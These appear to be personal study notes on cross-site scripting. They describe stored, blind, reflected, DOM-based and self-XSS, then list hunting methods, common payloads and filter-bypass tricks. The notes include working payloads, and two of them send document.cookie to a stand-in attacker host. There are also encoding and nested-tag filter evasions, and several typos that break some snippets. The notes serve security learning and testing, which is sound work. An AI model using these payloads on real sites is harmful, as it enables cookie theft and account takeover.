 ### Types of XSS

* XSS happens when scripts run on a victim's browser when a website cant tell the difference betweene user input and website code.
* **Stored XSS** - When user input is stored on a server and retrieved later unsafely.
    * Although they weren't properly sanitized being injected, scripts could be escaped/sanitized if it was being retrieved 
    * Most dangerous type of XSS
    * <script> alert('XSS by Vickie'); </script>
    * Cookies and personal info could be stolen with XSS. But it can also change site contents and redirect to other sites.
    * **Forms, search boxes, name, or username fields.**
    * Sometimes menus or numeric fields can have XSS if you change their values in a proxy.
 * **Blind XSS** - a stored XSS that takes place someplace else in the application.
    * Harder to detect, you cant find them by lookinh got reflected input from the server.
    * Attacks can host their own server and if they see a response to that server, then that web application has that XSS vulnerability.
 * **Reflected XSS** - user input is returned without being stored in a database. Often found in input forms that build pages, like search boxes.
     * h<span>ttps://example.com/search?q=<script> ... </script>
     * Not only could they extract data, but **perform malicious actions on the victim's machine on behalf of the attacker**.
 * **DOM-based XSS** - similar to a reflected XSS except it doesnt leave the browser. Scripts injected stay on the browser and targets the DOM of a web page.
     * DOM specifies how HTML creates a webpage and how scripts modify it.
     * Targets local files saved on the browser.
     * jQuery alters the DOM is often vulnerable to these type of attacks.
     * **Can be embedded in fragments and URL parameters:**
         * h<span>ttps://example.com#about_us
         * h<span>ttps://example.com?locale=<script>location='http://attacker_server_ip/?c=+document.cookie;</script>
  * **Self-XSS** - a social engineering attack that tricks users into executing a XSS intructed by the attacker.

### Hunting for XSS
   
  * The <script> tag are unlikely to work on their own, you must use different methods.
  * HTML attributes:
      * onlick
      * onerror
      * onload
  * URL schemes like javascript: or data:
      * javascript: alert('Hello')
      * data: text/html; base64, PHNjcmlwd...+"
          * This scheme allows you to embed small files to the URL.
          * The data at the end is encoded in base64 to bypass the XSS filters.
  * Works on <<span>img> tag.
      * h<span>ttps://example.com/upload_profile_pic?url=IMAGE_URL
      * IMAGE URL will be inserted in a <img> tag when the image is rendered.
  * **Take note of which characters are being rendered directly and which ones are escaped.**
###  Common payloads

* <script> alert(1) </script>
* <iframe src = javascript: alert(1) >
* <<span>body onload=alert(1)>
* "><<span>img src=x onerror=prompt(1);>
* <script> alert(1)<!-
    * <!- is an HTML comment, prevents syntax errors.
* <a onmouseover" alert(1)"> test </a>
* <script src=//attacker.com/test.js>

### Other test methods

* Test strings: 
    * <span>> , ' , <span>< , <span>" ,  //
    * :
    * =
    * ;
    * !
    * --
* Fuzzing

### Bypassing filters

* Mix different encodings and capitilizations to confuse filters.
* HTML allows for syntax errors in capitilzations
* If special characters are filtered, you cant write strings into a payload directly.
    * Use JavaScript functions like fromCharCopde() that translates numeric codes to ASCII chars.
    * <scrIPT> location=String.fromCharCode(104,116,...)+document.cookie;</srcIPT>
    * Use h<span>ttp://js.do/
* Sometimes applications remove tags once or a couple times.
    * <scrip<script>t> ... </scrip</script>t>
    * The inner script tags will be removed, but the outer ones will be brought together and execute.
    
